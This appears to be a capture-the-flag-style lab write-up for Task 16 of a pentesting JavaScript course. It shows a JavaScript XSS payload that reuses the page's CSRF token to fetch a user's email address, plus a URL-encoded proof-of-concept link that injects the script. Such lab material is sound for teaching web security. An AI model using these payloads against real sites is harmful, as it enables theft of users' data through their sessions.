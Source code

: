 ## Task 16 <small>[[Try Now]](http://pentesteracademylab.appspot.com/lab/webapp/jfp/16?csrf_token=87756351612121977981321312312123123126554427773)</small>

Objectives:

1. Find John's Email Address using an XSS vulnerability on this page
2. Display the Email address in the div with id "result"
3. No Hardcoded values can be used - everything has to be figured out dynamically

Since the CSRF Token value of user can change, we need use some JS oriented way to get the query parameter and send the XHR to the below url

![](https://i.ibb.co/QF3vQDW/Screenshot-20201226-012703.png)

You can use [Location.search](https://developer.mozilla.org/en-US/docs/Web/API/Location/search) to get the query paramter dynamically and [URLSearchParams](https://developer.mozilla.org/en-US/docs/Web/API/URLSearchParams/URLSearchParams) to parse them

```js
const qp = new URLSearchParams(location.search);
qp.set("name", "john");

const xhttp = new XMLHttpRequest();

xhttp.onreadystatechange = function () {
  if (this.readyState == 4 && this.status == 200) {
    document.querySelector("#result").innerText = xhttp.responseText;
  }
};
xhttp.open("GET", "http://pentesteracademylab.appspot.com/lab/webapp/jfp/16/email?" + qp.toString(), true);
xhttp.send();
```

For POC, [Click Here](http://pentesteracademylab.appspot.com/lab/webapp/jfp/16?csrf_token=87756351612121977981321312312123123126554427773&url=%3Cscript%3E%0Aconst%20qp%20%3D%20new%20URLSearchParams%28location.search%29%3B%0Aqp.set%28%22name%22%2C%20%22john%22%29%3B%0A%0Aconst%20xhttp%20%3D%20new%20XMLHttpRequest%28%29%3B%0A%0Axhttp.onreadystatechange%20%3D%20function%20%28%29%20%7B%0A%20%20if%20%28this.readyState%20%3D%3D%204%20%26%26%20this.status%20%3D%3D%20200%29%20%7B%0A%20%20%20%20document.querySelector%28%22%23result%22%29.innerText%20%3D%20xhttp.responseText%3B%0A%20%20%7D%0A%7D%3B%0Axhttp.open%28%22GET%22%2C%20%22http%3A%2F%2Fpentesteracademylab.appspot.com%2Flab%2Fwebapp%2Fjfp%2F16%2Femail%3F%22%20%2B%20qp.toString%28%29%2C%20true%29%3B%0Axhttp.send%28%29%3B%0A%3C%2Fscript%3E)
